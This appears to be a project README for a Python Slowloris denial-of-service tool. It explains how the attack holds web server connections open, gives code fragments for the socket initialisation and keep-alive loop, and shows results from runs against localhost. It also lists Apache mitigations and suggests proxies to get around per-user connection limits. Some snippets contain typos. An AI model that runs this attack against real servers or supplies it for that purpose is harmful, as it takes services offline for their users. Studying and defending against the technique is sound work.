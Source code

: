 The Slowloris attack allows a user to DDOS a server using only one machine. It tries to keep as many connections open with the target web server as possible and tries to keep them open as long as possible. As soon as Slowloris has opened a connection, it will keep it open by sending incomplete requests that it will slowly complete as it goes along but will never finish them. Affected servers will see their maximum number of connections reached and may refuse new user connections.

The servers mostly affected by the Slowloris attack are:

- Apache 1.x and 2.x
- dhttpd
- Flask
There are modules for Apache that reduce the chance of a Slowloris attack such as:

- mod_limitipconn
- mod_qos, mod_evasive
- mod security
- mod_noloris
- mod_antiloris

There are other methods to protect yourself, such as installing a:

- reverse proxy
- firewall
- load balancer
- content switches
If none of these solutions are available, it is always possible to place your web server behind an Nginx or lighthttpd.

## How it works
It is necessary to install some dependencies. The commands to be executed to have an execution environment are the following:

```Python
virtualenv env
source env/bin/activate
pip install -r requirements.txt
```
Then it is possible to choose some options:

- a: Host to perform an attack on, default localhost
- p: Port of the server, default = 80
- s: Max socket to use
- d: Debug mode

First of all, it is necessary to retrieve the type of server you want to attack. For example, an apache 1.x/2.x server will allow an optimal attack.

On the other hand, attacking a WebServer running with the NodeJS framework from version 8 is useless.

To retrieve the type of server, we send a get request:
```Python
sock.send("GET / HTTP/1.1\r\n\n".encode("ascii"))
```
Then we analyze the answer.

```Python
HTTP/1.1 400 Bad Request Date: Wed, 10 Jul 2019 16:18:53 GMT Server: Apache/2.4.29 (Ubuntu) Content-Length: 301 Connection: close Content-Type: text/html; charset=iso-8859-1
```

For the initialization of the sockets three requests are sent:

```Python
s.send("GET /?{} HTTP/1.1\r\n".format(random.randint(0, 2000).encode("utf-8"))
s.send("User-Agent: {}\r\n".format(ua.USER_AGENT[random.randin(0,29)]).encode("utf-8"))
s.send("{}\r\n".format("Accept-language: en-US,en,q=0.5".encode("utf-8"))
```
The first one initiates the connection
The second one sends the user agent used randomly chosen from the user agent pool.
The third one says which languages are accepted.
On initialization, the Slowloris will try to initiate as many connections as requested.

It will then keep them alive by completing them every 15 seconds with:

```Python
s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
```
It will then try to open connections again until he reaches the limit we have set.
```
for _ in range(self.target_info.sockets_number - len(self.sockets_list)):
    try:
        s = self.init_socks()
        if s:
            self.sockets_list.append(s)
```
Then the Slowloris will calculate the latency by requesting a separate thread.

```Python
response = requests.get(self.url).elapsed.total_seconds()
```
The request makes a get on the host entered by the user and retrieves the time between sending and answering the request.

## Results
The results below were performed on an Apache server with the initial configuration.

The program ran with the following command:

`python src/main.py -a 127.0.0.1 -s 1000`
At first, the console shows us that we are on an Apache server, which is perfect for our attack.

`[127.0.0.1] server running with Apache, best configuration for this attack`
In the second step, the initial latency is displayed:

`[Latency] -- 0.002142`

It is therefore noticeable that the latency time is relatively low.

Then we initialize the maximum socket.

`279 connections 1000 initialized`

We notice here that we managed to initialize only 279 sockets out of 1000 planned. We now try to keep them open as long as possible.

After 15 seconds, we try to create new connections to reach 1000 open connections.

After 5 minutes, you can see that we have 408 open sockets.

`408 connections 1000 initialized`

There is also a 15-second latency proof that denial of service works.

`[Latency] -- 15.80608`
After 10 minutes, the program is stopped so that you can see an average latency of 14.7 seconds.

**Average latency = 14.7025671999999999999**


When you try to launch another Slowloris on the same server when there is already a Slowloris running, it won't succeed because the number of open connections is already maxed out.

```Bash
(env) ➜ slow attack git:(master) ✗ python src/main.py -a 127.0.0.1
19:30:51 - Slow Loris Attack Started
19:30:54 - No Webserver detected, please verify your target address
```
## Difficulties
The main challenge was hardware, trying the attack on a remote server. The internet box "banned" me. It was impossible to access any website outside, impossible to use a DNS.


The second difficulty was to understand that the nodes' servers were not affected. The program seemed to work, but no slowdowns observed.

## Room for Improvement
There is much room for improvement:

- Automatic detection of the server and optimization of the parameters.
- Automatic detection of server timeout for requests.
- Detection of the maximum number of server connections to be able to choose the level of DDoS you want (a little, a lot, medium).
- Use of proxies to allow more connections when there is a limited number of connections per user.

The Slowloris attack is exciting if the webserver is vulnerable to this attack because it allows a single computer to easily DDoS a server. However, it is easy to protect yourself against these attacks by implementing a few rules: a limited number of sockets per user, firewall, reverse proxy, etc..

Thanks to Quentin Derosin for the help on this project.
